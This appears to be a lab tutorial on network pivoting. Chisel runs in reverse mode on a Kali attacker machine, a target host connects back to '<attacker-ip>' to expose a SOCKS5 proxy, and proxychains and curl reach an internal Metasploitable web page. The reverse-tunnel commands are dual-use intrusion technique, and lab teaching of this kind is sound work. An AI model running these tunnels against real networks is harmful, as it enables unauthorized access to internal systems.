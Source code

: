 **Attacker** | On a **Kali root-user terminal**, start the server in reverse mode:
```bash
chisel server -p 8080 --reverse 
```

**Target** | On **ubuntu_target**, bind SOCKS5 proxy remotely using this:
```bash
chisel client -v http://<attacker-ip>:8080 R:1080:socks 
```

**Attacker** | Configure `proxychains` on the **Kali machine**: 
```bash
sudo nano /etc/proxychains.conf 
```

**Attacker** | Paste this into the configuration file:
```bash
# proxychains.conf 

strict_chain 
proxy_dns  
tcp_read_time_out 15000 
tcp_connect_time_out 8000 

[ProxyList] 
socks5 127.0.0.1 1080 
```
Save and exit by pressing `Ctrl + o`, `Enter`, and then `Ctrl + x`.


### 1. CLI-based HTTP Access Pivot
*Scenario: An external machine has successfully tunneled into the internal network using a SOCKS5 proxy over Chisel. They want to verify access to an internal web application running on **metasploitable** by retrieving a custom page from its Apache server using `curl`.*

Inside of **metasploitable**, `apache2` is already installed so there is no need to install it this time. We need to start the `apache2` service and we are going to create our own custom page on `apache2` so that we can see that we successfully pivoted. 

**Target** | On **metasploitable**: 
```bash
service apache2 start 

echo "Pivot worked! Apache says hello." > /var/www/html/pivot.html 

service apache2 status # Check if it is running 
```

**Attacker** | On the **Kali machine**:
```bash
proxychains curl http://<metasploitable-ip>/pivot.html 
```
Traffic goes through the SOCKS5 proxy on the **attacker (Kali machine)**, which tunnels this request through **ubuntu_target**, and reaches **metasploitable's** internal Apache server. 

> SS7: On the **attacker (Kali machine)** terminal, show the pivot.html output from **metasploitable**: [insert screenshot]

